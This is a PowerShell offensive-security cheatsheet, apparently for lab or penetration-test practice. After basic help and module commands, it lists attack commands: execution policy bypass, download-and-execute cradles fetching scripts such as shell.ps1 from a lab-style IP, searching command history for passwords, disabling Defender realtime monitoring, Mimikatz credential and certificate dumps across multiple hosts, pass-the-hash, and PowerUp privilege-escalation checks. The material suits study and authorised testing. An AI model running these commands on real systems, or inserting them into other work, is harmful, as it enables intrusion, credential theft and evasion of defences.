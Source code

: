 # Cheatsheet

## Help System

`Get-Help Get-Process`
`help Get-Process`
`Update-Help`

`Get-Help remoting`
`Get-Help about_*remot*`

`Get-Command -CommandTyle Cmdlet`

## Basic Constructs

```
Cmdlets
Function
```

## Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

## Check Environment

- Version info: `powershell -v 2.0 -c $psversiontable`
- Language mode: `$host.runspace.languagemode`
- Check if AppLocker is enabled: `Get-AppLockerPolicy -Local`

## Download Files
```
powershell wget "http://example.com/abc.txt" -outfile "abc.txt"
```

## Execution Policy

- Not a security feature
- Used to avoid accidental script execution
- Can be bypass with:
  - `powershell -executionpolicy bypass .\example.ps1`
  - `powershell -c <cmd>`
  - `powershell -enc`

> Ref https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6

## Modules

`Import-Module <path_to_module> -verbose`
`Get-Module -ListAvailable`
`Get-Command -Module <module_name>`

## Remote Script execution

- `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
- `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
- `powershell -EncodedCommand <Base64EncodedCommand>`

```
START /B ​ ""​ powershell -c IEX (​ New-Object
Net.Webclient).downloadstring(​ 'http://10.10.14.2/shell.ps1'​ )
```
_/B prevents creation of a new window_

- Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter

## Command History (PSReadline)

```
cat (Get-PSReadlineOption).HistorySavePath | sls password
```
By default, the path is:
```
profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Powershell Remoting

- Enabled by default from Windows Server 2012
- Admin privileges are required to connect

### One to One

- Uses PSSession
  - Interactive, stateful session
  - Run in a new process `wsmprovhost`

### Useful cmdlets

New-PSSession
Enter-PSSession

```
Set-MpPreference -DisableRealtimeMonitoring $true
New-PSSession -ComputerName instance

$sess = New-PSSession -ComputerName instance
Enter-PSSEssion - Session $sess
```
### One to Many (Fan-out Remoting)

- Non-interactive
- Parallel command execution
- Can execute scripts from files
- Usable to perform command execution without dropping exe onto disk
- Useful for passing and replying hashes, tickets and other AD attacks

Run commands:
```
Invoke-Command -ScriptBlock{whoami;hostname} -ComputerName instance
```

Run scripts:
```
Invoke-Command -FilePath example.ps1 -ComputerName instance
```

Run functions installed on the remote box:
```
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName instance
```

Stateful commands:
```
$sess = New-PSSession -ComputerName instance
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

Mimikatz (ReflectivePEInjection is used to load into memory)
```
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
```

Pass the Hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<name_of_the_user> /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
```
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator  /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
```

Dump Creds from multiple machines
```
Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")
```

## Load PowerUp

```
powershell -ExecutionPolicy Bypass
Import-Module ./PowerUp.ps1​
Invoke-AllChecks​
```

